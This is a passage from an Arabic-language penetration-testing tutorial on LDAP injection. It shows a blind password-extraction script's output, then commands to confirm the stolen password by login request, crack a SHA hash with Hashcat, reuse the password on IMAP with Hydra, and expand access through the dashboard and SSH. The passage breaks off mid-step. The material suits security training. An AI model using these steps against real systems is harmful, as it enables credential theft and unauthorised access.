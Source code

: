 - **النتيجة المتوقعة**:
  - السكربت يطبع:
    ```
    [i] Looking for character 1
    [+] Flag: M
    [i] Looking for character 2
    [+] Flag: MY
    [i] Looking for character 3
    [+] Flag: MYK
    [i] Looking for character 4
    [+] Flag: MYKE
    ```
  - تحصل على كلمة المرور `MYKE`.
- **الأوامر/الإجراءات**:
  - قم بتثبيت `requests`: `pip install requests`
  - عدّل `url` و`"Result found"` بناءً على الموقع وشرط النجاح.
  - شغّل السكربت وراقب الطلبات في Burp Suite.

---

### الخطوة 6: استغلال خاصية `userPassword` (تأكيد القيم، كسر التشفير، توسيع الهجوم)
**الهدف**: تأكيد كلمة المرور المستخلصة، كسر أي تشفير، واستخدام القيمة للوصول إلى النظام أو أنظمة أخرى.

**مثال عملي**:
- **السيناريو**: استخلصت كلمة مرور `MYKE` لمستخدم `administrator` أو هاش `{SHA}2cM6...`. تريد تأكيدها، كسر الهاش إذا لزم الأمر، وتوسيع الهجوم.
- **الأدوات**: Burp Suite، Hashcat، Python، Hydra.
- **الإجراء**:
  1. **تأكيد كلمة المرور**:
     - أدخل في نموذج تسجيل الدخول:
       - Username: `administrator`
       - Password: `MYKE`
     - طلب:
       ```
       POST /login HTTP/1.1
       Host: example.com
       Content-Type: application/x-www-form-urlencoded

       username=administrator&password=MYKE
       ```
     - إذا نجح (مثل رمز 302 أو "Welcome")، فكلمة المرور صحيحة.
  2. **كسر الهاش (إذا كانت القيمة مشفرة)**:
     - لنفترض أن القيمة هي `{SHA}2cM6...`.
     - احفظ الهاش في `hash.txt`:
       ```
       2cM6...
       ```
     - شغّل Hashcat:
       ```
       hashcat -m 100 hash.txt /path/to/rockyou.txt
       ```
     - إذا نجح، تحصل على النص العادي (مثل `MYKE`).
  3. **اختبار كلمة المرور في خدمات أخرى**:
     - جرب `MYKE` في خادم IMAP:
       ```
       hydra -l administrator@domain.com -p MYKE imap://mail.domain.com
       ```
     - إذا نجح، تحصل على وصول إلى البريد.
  4. **توسيع الهجوم**:
     - بعد تسجيل الدخول إلى لوحة التحكم (`http://example.com/dashboard`)، تصفح `/admin/users`.
     - استخرج قائمة المستخدمين أو الملفات الحساسة.
     - إذا كنت في خادم عبر SSH (بعد اختبار `ssh administrator@target_ip` مع `MYKE`):